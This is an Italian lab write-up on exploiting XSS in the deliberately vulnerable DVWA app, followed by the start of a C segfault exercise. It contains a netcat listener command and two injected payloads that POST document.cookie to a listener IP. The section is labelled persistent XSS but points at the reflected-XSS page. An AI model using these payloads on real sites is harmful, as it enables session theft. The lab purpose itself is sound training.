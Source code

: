 ## Giorno 2: Exploit XSS Persistente su DVWA (Low e Medium)

### Obiettivo
Simulare il furto di cookie di sessione sfruttando vulnerabilità XSS.

### Requisiti
- DVWA configurato e funzionante.
- Server di ascolto (Kali Linux) configurato sulla porta `4444`.

### Parte 1: Modalità Low

#### Passaggi
1. Configura il server di ascolto su Kali Linux:
   ```bash
   nc -lvnp 4444
   ```
2. Vai alla sezione XSS Persistente:
   - URL: `http://192.168.13.150/dvwa/vulnerabilities/xss_r/`
3. Inserisci il seguente payload:
   ```html
   <script>
     fetch('http://192.168.13.100:4444', { method: 'POST', body: document.cookie });
   </script>
   ```
4. Verifica i cookie ricevuti nel terminale di Kali Linux.

### Parte 2: Modalità Medium

#### Passaggi
1. Configura il server di ascolto su Kali Linux:
   ```bash
   nc -lvnp 4444
   ```
2. Vai alla sezione XSS Persistente:
   - URL: `http://192.168.13.150/dvwa/vulnerabilities/xss_r/`
3. Inserisci il seguente payload:
   ```html
   <img src="nonexistent.jpg" onerror="fetch('http://192.168.50.100:4444', {method: 'POST', body: document.cookie})">
   ```
4. Verifica i cookie ricevuti nel terminale di Kali Linux.

---

## Giorno 3: Simulazione di Segmentation Fault in C

🛠 TRACCIA GIORNO 3: Programma in C
📜 Triggerare un Segmentation Fault: Spiegazione e Logica 💻
In questo progetto, abbiamo esplorato come forzare un segmentation fault in un programma C, partendo da un programma originale funzionale. Abbiamo aggiunto modifiche per simulare errori critici e comprenderne le cause.
